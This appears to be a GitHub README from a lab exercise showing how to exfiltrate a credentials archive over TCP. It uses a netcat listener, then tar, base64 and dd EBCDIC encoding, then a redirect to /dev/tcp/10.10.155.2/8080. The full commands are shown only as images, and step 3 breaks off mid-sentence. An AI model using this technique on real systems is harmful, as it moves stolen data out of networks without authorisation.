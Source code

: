 <h1>Data Exfiltration</h1>

<h2>Description</h2>
This repository will contain the method of performing data exfiltration using TCP Sockets.<br />

<h2>Exfiltration</h2>
<b>Step 1: Establish a NetCat Listener</b><br />
Establish a Netcat listener that will output received data to a file:
<p align="center">
  <img src="./imgs/netcat_listener.png"/>
</p><br/>
<b>Step 2: Transfer Data</b><br />
Next, we'll create an archive of the file using <i>tar zcf</i>, then we'll use <i>base64</i> to encode the data, lastly we'll create a backup <i>dd conv=ebcdic</i> and transfer it using TCP socket <i> > /dev/tcp/10.10.155.2/8080</i>: 
<p align="center">
  <img src="./imgs/data_transfer.png"/>
</p><br/>
<b>Step 3: Decode and Extract the Content</b><br />
Finally, we'll convert the file to ascii <i>dd conv=ascii if=task4-creds.data</i>, decode the base64 <i>base64 -d > task4-creds.data.tar</i>. Lastly
<p align="center">
  <img src="./imgs/view_tcp_content.png"/>
</p><br/>


<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
